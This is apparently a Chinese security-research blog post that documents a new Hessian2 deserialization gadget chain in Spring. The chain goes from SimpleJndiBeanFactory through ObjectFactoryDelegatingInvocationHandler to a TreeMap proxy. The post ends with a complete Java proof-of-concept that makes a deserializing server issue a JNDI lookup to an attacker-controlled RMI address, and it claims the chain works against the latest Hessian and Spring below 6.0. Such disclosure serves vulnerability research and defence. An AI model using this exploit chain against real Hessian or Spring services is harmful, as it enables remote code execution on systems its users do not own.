










# 基于Hessian2反序列化挖掘Spring原生利用链-先知社区

> **来源**: https://xz.aliyun.com/news/17895  
> **文章ID**: 17895

---

# 0x00 准备

利用链所需依赖：

```
<dependencies>
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>hessian</artifactId>
        <version>4.0.66</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-context</artifactId>
        <version>5.3.39</version>
    </dependency>
</dependencies>
```

版本：

1. Hessian最新版本4.0.66，目前通杀
2. Spring-context < 6.0.0 可以直接利用，更高版本需要其他的绕过手法
3. jdk限制不严格，利用一些绕过方法就可以突破

# 0x01 寻找过程

## 漏洞点

漏洞点在SimpleJndiBeanFactory类的getBean(String name)方法。

getBean方法接受两个参数，参数name设置为恶意的JNDI服务端地址。该方法默认情况下会调用到同类的lookup方法，lookup方法会触发JNDI请求。



我使用集成工具Java Chains 起了一个JNDI服务端（Java Chains相当好用，功能全面而便捷），JNDI服务端收到请求并发送恶意payload：



这证明了漏洞点确实可行，但是SimpleJndiBeanFactory类没有实现Serializable接口，这意味着很难打Java原生反序列化。

当时的我并没有往这方面尝试，而是突发奇想，Hessian2反序列化不需要关注该接口，说不定可以打它。

接下来就是向上寻找调用getBean方法的类。

## 寻找调用

我找到TargetBeanObjectFactory类的getObject()方法，该方法可以调用SimpleJndiBeanFactory的getBean方法。

该方法会用到成员beanFactory和targetBeanName，前者设置为SimpleJndiBeanFactory，后者是JNDI服务端地址：



因为该类是一个private内部类，所以我选择通过ObjectFactoryCreatingFactoryBean类的

createInstance()方法构造该类，同时把两个成员也赋值了：



* argetBeanName是JNDI服务端的地址
* beanFactory是恶意构造的SimpleJndiBeanFactory实例。

如下图，我们可以获得一个恶意的TargetBeanObjectFactory类：



现在我们得到了TargetBeanObjectFactory类，但是距离得到一条真正的gadget还遥遥无期，此时我看到了一个实现了InvocationHandler接口的类，才窥见了突破口。

## 突破点

突破点就是ObjectFactoryDelegatingInvocationHandler类。为什么我会认为这是突破点呢？因为该类实现了InvocationHandler接口，所以该类可以被封装到动态代理类，动态代理类如果触发了自身的任意方法，都会走到InvocationHandler的invoke方法。

invoke方法如下，其满足特定条件会触发ObjectFactory接口的getObject()方法，成员objectFactory就是上文的TargetBeanObjectFactory类。



特定条件就是触发代理的方法不能是：equals()、hashCode()、toSring()。

那么我们可以构造动态代理类，在反序列化过程中调用了**非上述三种方法**的其他方法，就可以顺着链子一直往下走，实现反序列化攻击。

## 触发点

我们要构造的代理是什么类型的呢？这就需要具体结合Hessian2反序列化的具体情况了。

众所周知Hessian2对Map类进行反序列化时会调用map.put()方法，该方法会调用key和value的一些方法，那么如果key是动态代理呢。

我首先想到HashMap，put()方法会接着调用到putVal()方法，然后调用到key.hachCode()方法和key.equals()方法，但是这两个方法都在上文不允许的方法中，所以不考虑用HashMap。

我尝试TreeMap，其put方法会调用k1.compareTo(k2)：



如果k1是恶意的动态代理类，就会触发到ObjectFactoryDelegatingInvocationHandler.invoke()方法，实现攻击。

只要这么构造动态代理就可以了：



那么链子就构造完成了，最终POC如下：

```
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import org.springframework.beans.factory.ObjectFactory;
import org.springframework.beans.factory.config.ObjectFactoryCreatingFactoryBean;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.*;
import java.lang.reflect.*;
import java.util.*;

import static Utils.Utils.*;

public class Gadget {
    public static void main(String[] args) throws Exception {
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        ObjectFactoryCreatingFactoryBean objectFactoryCreatingFactoryBean = new ObjectFactoryCreatingFactoryBean();
        Field beanFactory = Class.forName("org.springframework.beans.factory.config.AbstractFactoryBean").getDeclaredField("beanFactory");
        beanFactory.setAccessible(true);
        beanFactory.set(objectFactoryCreatingFactoryBean, simpleJndiBeanFactory);
        setFieldValue(objectFactoryCreatingFactoryBean, "targetBeanName", "rmi://xxx.xxx.xxx.xxx:50388/75737f");
        Method createInstance = objectFactoryCreatingFactoryBean.getClass().getDeclaredMethod("createInstance");
        createInstance.setAccessible(true);
        ObjectFactory targetBeanObjectFactory = (ObjectFactory) createInstance.invoke(objectFactoryCreatingFactoryBean);
        Constructor<?> declaredConstructor = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler").getDeclaredConstructor(ObjectFactory.class);
        declaredConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(targetBeanObjectFactory);
        Comparable comparable = (Comparable) Proxy.newProxyInstance(Comparable.class.getClassLoader(),
                new Class[]{Comparable.class},
                invocationHandler);
        TreeMap<Object, Object> treeMap = gadgetFromTreeMap(comparable);
        String s = serialize(treeMap);
        deserialize(s);
    }
    
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Class clazz = object.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }

    public static TreeMap<Object, Object> gadgetFromTreeMap(Object o) throws Exception {
        TreeMap<Object, Object> treeMap = new TreeMap<>();
        treeMap.put(1, 1);
        // 获取TreeMap的root节点
        Field rootField = TreeMap.class.getDeclaredField("root");
        rootField.setAccessible(true);
        Object rootEntry = rootField.get(treeMap);
        // 获取Entry的key字段
        Field keyField = rootEntry.getClass().getDeclaredField("key");
        keyField.setAccessible(true);
        // 修改key
        keyField.set(rootEntry, o);
        return treeMap;
    }
    public static <T> String serialize(T object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(object);
        hessian2Output.flushBuffer();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static <T> T deserialize(String string) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Base64.getDecoder().decode(string));
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        return  (T) hessian2Input.readObject();
    }
}

```

攻击截图：

* JNDI服务端：



* 客户端受到攻击：



# 0x02 结语

其实这条gadget的调用链并不复杂，而且我感觉还有更多的利用方式······
